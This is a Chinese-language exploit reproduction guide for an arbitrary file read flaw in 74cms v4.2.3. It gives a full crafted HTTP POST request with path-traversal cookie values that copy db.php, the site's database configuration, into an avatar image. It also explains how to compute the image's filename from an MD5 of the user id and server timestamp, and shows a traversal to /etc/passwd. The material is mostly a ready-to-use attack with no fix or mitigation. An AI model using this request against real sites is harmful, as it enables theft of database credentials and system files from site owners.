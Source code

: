 # 74cms v4.2.3 任意文件读取

## 一、漏洞简介
## 二、漏洞影响
74cms v4.2.3

## 三、复现过程
先尝试读取 db.php，向服务器post如下数据

```html
POST /index.php?m=&c=members&a=register HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
Content-Type: application/x-www-form-urlencoded

ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind
```

会返回如下数据

1.png

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

2.png

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp Suite上返回的时间转换为时间戳

3.png

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

4.png

成功获取图片名，然后访问

```html
https://www.0-sec.org/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 
```

保存该图片用文本打开就是 db.php 的内容。

### PS:
使用post提交，参数如下

5.png

在Header可获取到时间戳

6.png

### 可能会遇到的问题
#### post数据返回unicode编码
因为名称，密码，ID等内容格式不对或重复会出现这种情况，将unicode编码进行解码，按提示修改即可。

#### 读取其他文件
```html
../../../../Application/Common/Conf/db.php
```

是读取db.php，如果想读取根目录可以构造

```html
../../../../../../../../etc/passwd
```

#### 时间戳问题
服务器返回的时间，服务器返回的是GMT格林威治标准时间，没有加上时区，只记录分秒即可
